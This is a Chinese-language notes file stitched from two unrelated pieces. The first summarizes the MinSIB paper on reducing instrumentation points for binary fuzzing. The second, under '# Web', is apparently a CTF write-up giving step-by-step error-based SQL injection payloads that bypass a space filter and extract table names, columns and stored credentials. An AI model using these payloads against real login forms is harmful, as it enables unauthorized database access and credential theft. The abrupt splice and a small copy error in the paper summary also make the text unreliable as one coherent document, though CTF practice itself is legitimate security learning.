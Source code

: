 # MinSIB: Minimized static instrumentation for fuzzing binaries

## 工作摘要

该论文的主要思路是通过减少插桩点来提升Fuzz的效率

首先提出了三种优化方法来减少要插桩的基本块数量

1. 选择特定的函数
2. 生成最优代码路径覆盖
3. 提取最小化基本块

接着提出了MiniSIB算法进一步减少了插桩点，并且实现了一种稳定、可靠、高效的二进制重写方法。

## 论文思路

### 选择特定的函数

首先使用Asm2vec模型提取函数的特征向量，对检测项目中的函数进行特征匹配。同时为了针对大型函数特征数据库做出了优化，将所有函数按大小排序，然后使用二分法加块匹配速度。

![1](images/1.png)

提取函数的特征向量后首先会过滤掉标准库的函数，然后就是选取感兴趣的函数。

为此本文以一个或多个函数为起点函数将与之有关联的函数进行标记作为感兴趣的函数。函数之间的调用或被调用的关系即为函数之间的关联，所以，如果函数之间存在调用关系，则可以将函数视为一个组。通过将每个函数$f$记录为$FCG$中的一个节点，可以将调用关系视为$FCG$中的一条有向边。因此，$FCG$可以定义为：$FCG =（V,\vec{E}）$，顶点集$V$包含所有函数，边集$\vec{E}$指示它们的调用关系。

调用关系可以分为三种，分别为祖先、子孙、兄弟关系。本研究在原始值的基础上确定了各种亲属关系的加权系数。对于指定的起点函数，可以以较低的成本计算其他函数的亲属系数，并且可以通过选择不同的阈值来容易地控制感兴趣的函数的数量。

![2](images/2.png)

### 生成最优代码覆盖路径

该生成算法由两个阶段组成：提取BBoI（兴趣基本块）和通过CFG生成OptCPC（最优代码覆盖路径）

#### 提取BBoI

以为Fuzz主要针对内存漏洞，因此该方法根据指令类型和指令的地址类型构建了指令与内存相关性的评估表，以此来得到指令的内存相关分数，并根据基本块所有指令的分数和阈值$\tau$来决定是否标记为BBoI，计算基本块内存相关分数的计算公式如下：


$$
\lambda=\sum_{k=1}^{|b|}Score(in_k)
$$


即基本块的最终得分是所有指令的总和。

函数$f$的兴趣基本块被定义为：


$$
B_f^*=\lbrace b|b∈B_f\wedge\lambda_b\geq\tau\rbrace
$$


$B_f$表示函数f的基本块的集合，并且$\tau$表示兴趣的阈值。函数的其余基本块，称为非兴趣的基本块，定义为：


$$
B_f^-=B_f-B_f^*
$$


#### 通过CFG生成OptCPC

执行路径$p$包含一组按顺序排列的基本块。如下图所示，函数$f_a$具有两个执行路径： $p_1 = \lbrace{b_1 → b_2 → b_4 }\rbrace$  和  $p_1 = \lbrace{b_1 → b_3 → b_4 }\rbrace$ 。 

![3](images/3.png)

但是当CFG中存在循环时执行路径的数量在理论上就是无限的。CPC是对于一个函数执行路径的扩展，就是为了解决循环路径而提出的，它将路径定义为一组离散的点，CPC被定义为


$$
\mathcal{P}=\lbrace b|b∈p\rbrace
$$


如下图所示，循环路径可以定义为一个CPC：$\mathcal{P}_b=\lbrace{b_1,b_2,b_3,b_4}\rbrace$。

![4](C:\Users\wn\Desktop\2024-2-4\images\4.png)

所有可能的CPC构成的CPC集合定义为：


$$
\mathbb{P}_f=\lbrace\mathcal{P}_p|p∈f\rbrace
$$


生成CPC集合的算法如下图所示

![5](C:\Users\wn\Desktop\2024-2-4\images\5.png)

感兴趣的基本块的集合 $B_f^*$ 的CPC即OptCPCs被定义为：


$$
\mathbb{P}_{opt}=\lbrace\mathcal{P}|\mathcal{P}∈\mathbb{P}_f\wedge\mathcal{P}\subseteq B_f^*\rbrace
$$


# Web

![6](images/6.png)

我们打开之后发现和之前做的差不多直接在密码的位置进行注入![7](images/7.png)

然后用BurpSuite检查下过滤，发现很多都被过滤了，然后挨个实验发现是过滤了空格，那么我们就可以用()进行绕过

![8](images/8.png)

我们尝试注入后发现，该网页会回显报错消息，所以我们改用报错注入

![9](images/9.png)

用**1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#**来获取数据库名

![10](images/10.png)

用**1'or(updatexml(1,concat(0x7e,(select(table_name)from(information_schema.tables)where(table_schema)like('geek')),0x7e),1))#**获取表名

![11](images/11.png)

再用**1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#**获取列名

![12](images/12.png)

最后用**1'or(updatexml(1,concat(0x7e,(select(group_concat(id,username,password))from(H4rDsq1)),0x7e),1))#**爆出一半flag

改一下变成**1'or(updatexml(1,concat(0x7e,(select(right(password,35))from(H4rDsq1)),0x7e),1))#**即可获得完整flag